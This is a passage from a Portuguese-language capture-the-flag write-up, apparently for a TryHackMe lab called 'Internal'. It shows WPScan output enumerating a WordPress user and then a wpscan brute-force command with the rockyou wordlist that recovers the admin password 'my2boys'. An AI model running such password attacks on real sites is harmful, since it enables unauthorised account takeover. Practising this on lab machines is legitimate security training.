 ```bash
 |   - http://internal.thm/blog/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Sep  8 21:53:14 2021
[+] Requests Done: 411
[+] Cached Requests: 9
[+] Data Sent: 110.99 KB
[+] Data Received: 521.579 KB
[+] Memory used: 214.129 MB
[+] Elapsed time: 00:00:41
```

Encontramos o usuário `admin`, podemos fazer um bruteforce com o próprio wpscan, para tentarmos encontrar uma senha válida.

```bash
┌──(hastur㉿hastur)-[~/…/estudos/thm/hard/Internal]
└─$ wpscan --url http://internal.thm/blog/ -U admin -P /usr/share/wordlists/rockyou.txt 
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                          
Trying admin / bratz1 Time: 00:07:57 <                                      > (3885 / 14348277)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

Encontramos as credenciais `admin:my2boys`, vamos tentar o login.

<img src="/thm/thm-internal-3.png">
